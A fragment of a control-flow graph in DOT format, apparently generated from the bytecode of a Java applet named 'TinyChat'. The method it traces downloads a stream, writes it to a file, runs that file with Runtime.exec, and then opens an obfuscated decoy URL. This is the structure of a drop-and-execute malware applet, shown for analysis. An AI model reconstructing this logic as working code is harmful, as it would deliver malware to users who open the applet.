    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>"->"push 1024";
    "push 1024"->"newarray";
    "newarray"->"store.r r3";
    "goto load.r r2"
    "store.r r3"->"goto load.r r2";
    "goto load.r r2"->"load.r r2";
    "load.r r2"->"load.r r3";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"
    "load.r r3"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "store.i r9"
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i r9";
    "load.i r9"
    "store.i r9"->"load.i r9";
    "push -1"
    "load.i r9"->"push -1";
    "ifcmpne.i load.r r4"
    "push -1"->"ifcmpne.i load.r r4";
    "ifcmpne.i load.r r4"->"load.r r4";
    "virtualinvoke <java.io.BufferedOutputStream: void close()>"
    "load.r r4"->"virtualinvoke <java.io.BufferedOutputStream: void close()>";
    "virtualinvoke <java.io.BufferedOutputStream: void close()>"->"load.r r2";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r2"->"virtualinvoke <java.io.InputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.InputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "new java.lang.StringBuilder"
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "push \"\\\"\""
    "dup1.r"->"push \"\\\"\"";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"
    "push \"\\\"\""->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"load.r r1";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\\"\"";
    "push \"\\\"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"load.r r0";
    "virtualinvoke <TinyChat: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <TinyChat: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <TinyChat: java.applet.AppletContext getAppletContext()>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"new java.lang.String";
    "new java.lang.String"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"Njg3NDc0NzAzYTJmMmY3NDY5NmU3OTYzNjg2MTc0MmU2MzZmNmQ=\""
    "load.r r0"->"push \"Njg3NDc0NzAzYTJmMmY3NDY5NmU3OTYzNjg2MTc0MmU2MzZmNmQ=\"";
    "push \"Njg3NDc0NzAzYTJmMmY3NDY5NmU3OTYzNjg2MTc0MmU2MzZmNmQ=\""->"specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>";
    "specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "push \"_top\""
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"push \"_top\"";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL,java.lang.String)> 2"
    "push \"_top\""->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL,java.lang.String)> 2";
    "goto return"
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL,java.lang.String)> 2"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL,java.lang.String)> 2"->"store.r r0";
    "ifcmpne.i load.r r4"->"load.r r4";
    "load.r r4"->"load.r r3";
    "load.r r3"->"push 0";
    "push 0"->"load.i r9";
    "virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>"
    "load.i r9"->"virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>";
}
